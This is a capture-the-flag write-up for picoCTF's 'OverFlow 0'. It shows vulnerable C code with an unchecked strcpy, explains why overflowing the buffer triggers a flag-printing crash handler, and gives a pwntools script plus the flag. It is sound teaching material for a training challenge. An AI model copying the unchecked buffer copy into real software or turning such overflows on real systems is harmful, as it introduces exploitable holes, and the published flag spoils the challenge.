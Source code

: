 # OverFlow 0 - Points: 100

## description

This should be easy. Overflow the correct buffer in this [program](./vuln) and get a flag. Its also found in /problems/overflow-0_2_20c7eb49602df3c04c1f43bf9aff1faa on the shell server. [Source](./vuln.c).

## solution

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```

We can see that the source code contains a handler for the ```SIGSEGV``` error code, which is thrown for buffer overflows.

```
signal(SIGSEGV, sigsegv_handler);
```

This handler is our "win" function and contains instructions to print the flag.

```
void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}
```

We can also see that the ```vuln()``` function uses `strcpy` to copy the first argument into a char array with a size of 128.
This can be used to cause a buffer overflow as the length of the first argument is never checked, allowing ```strcpy``` to write past the end of the buffer.

We can cause a segmentation fault to occur by passing an argument somewhat larger than the buffer size.

## exploit script

I used pwntools to connect to the shell server and called the function with an argument of length 256 to ensure a segmentation fault error.

```
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/overflow-0_2_20c7eb49602df3c04c1f43bf9aff1faa'

print("running vuln")
print("sending payload")
payload = 'A' * 256
vuln = conn.process([location + '/vuln', payload], cwd = location)

flag = vuln.recvline().decode()[:-1]
print(flag)

print("done")
```

Flag: ```picoCTF{3asY_P3a5yd2b59a57}```

